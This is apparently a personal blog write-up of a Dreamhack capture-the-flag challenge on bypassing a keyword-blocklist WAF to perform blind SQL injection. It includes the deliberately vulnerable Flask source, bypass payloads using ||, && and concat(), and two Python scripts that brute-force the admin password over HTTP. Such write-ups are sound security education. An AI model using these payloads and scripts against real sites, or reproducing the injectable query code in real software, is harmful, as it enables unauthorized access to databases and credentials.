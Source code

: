 ```yaml
---
layout: post
title:  "[Dreamhack]Advanced WAF Bypass SQLI"
date:   2024-05-22 22:59:20 +0530
categories: ctfwriteup
---
```


### Challenge Name : Advanced WAF Bypass SQLi

Th challenge source code is given below

```
import os
from flask import Flask, request
from flask_mysqldb import MySQL

app = Flask(__name__)
app.config['MYSQL_HOST'] = os.environ.get('MYSQL_HOST', 'localhost')
app.config['MYSQL_USER'] = os.environ.get('MYSQL_USER', 'user')
app.config['MYSQL_PASSWORD'] = os.environ.get('MYSQL_PASSWORD', 'pass')
app.config['MYSQL_DB'] = os.environ.get('MYSQL_DB', 'users')
mysql = MySQL(app)

template ='''
<pre style="font-size:200%">SELECT * FROM user WHERE uid='{uid}';</pre><hr/>
<pre>{result}</pre><hr/>
<form>
    <input tyupe='text' name='uid' placeholder='uid'>
    <input type='submit' value='submit'>
</form>
'''

keywords = ['union', 'select', 'from', 'and', 'or', 'admin', ' ', '*', '/', 
            '\n', '\r', '\t', '\x0b', '\x0c', '-', '+']
def check_WAF(data):
    for keyword in keywords:
        if keyword in data.lower():
            return True

    return False


@app.route('/', methods=['POST', 'GET'])
def index():
    uid = request.args.get('uid')
    if uid:
        if check_WAF(uid):
            return 'your request has been blocked by WAF.'
        cur = mysql.connection.cursor()
        cur.execute(f"SELECT * FROM user WHERE uid='{uid}';")
        result = cur.fetchone()
        if result:
            return template.format(uid=uid, result=result[1])
        else:
            return template.format(uid=uid, result='')

    else:
        return template


if __name__ == '__main__':
    app.run(host='0.0.0.0')
```

This challenge is advanced version of the previous challenge <code>`WAF bypass SQLI`</code>,The user input here is lower casted before checking into the check_WAF function.

At first i tried basic concatenation [OR Operator] and it worked with <code>`'||1=1#` `'||1=0#`</code>

<img>

Then i tried with <code>`'||length(upw)={length}#`</code> , i got success in calculating the length, like if the length is valid,the server will respond the uid but it seems if founded the upw of abcde which is a different user.

Then started struggling with the idea of how to supply the admin uid, meanwhile i understood the exploitation part will require blind injection.

The idea came in to use the [AND operator] && <code>`'||(uid='guest'&&length(upw)=5)#`</code>

It worked and the responded with the uid guest.

<img>

Now we can use concat function to supply admin value in uid <code>`concat('adm','in)`</code>, We also know that the flag value is stored in admin upw and starts with 'D' since the flag format is 'DH{.*}'.

I supplied the payload <code>`'||(uid=concat('adm','in')&&substr(upw,1,1)='D')#` and yesss! we recieved the response uid as admin which means we succceded!

Now our idea is to  find the length of upw and below is the script i created that will help us to find the length!



```
import requests
import urllib.parse

host = "http://host3.dreamhack.games:18985"


length = 0

while True:
	payload = f"'||(uid=concat('adm','in')&&length(upw)={length})#"
	encoded_payload = urllib.parse.quote(payload)

	print(f"Trying length {length}")
	data = requests.get(f"{host}/?uid={encoded_payload}")
	if "admin" in data.text:
		break
	else:
		length=length+1

print(f"Admin upw length is {length}")
```

The length of upw is 44 and now we can bruteforce each character and find the flag.

```
import requests
import urllib.parse

host = "http://host3.dreamhack.games:18985"

charSet = '0123456789abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ!"#$%&\'()*+,-./:;<=>?@[\\]^_`{|}~'

length=44
pos=0
flag=''
for i in range(0,45):
	pos= pos+1
	for j in charSet:
		payload = f"'||(uid=concat('adm','in')&&substr(upw,{i},1)='{j}')#"
		encoded_payload = urllib.parse.quote(payload)
		data = requests.get(f"{host}/?uid={encoded_payload}")
		if "admin" in data.text:
			print(f"found character {j} in position {i}")
			flag = flag+j
			break

print(f"Flag : {flag}")
```
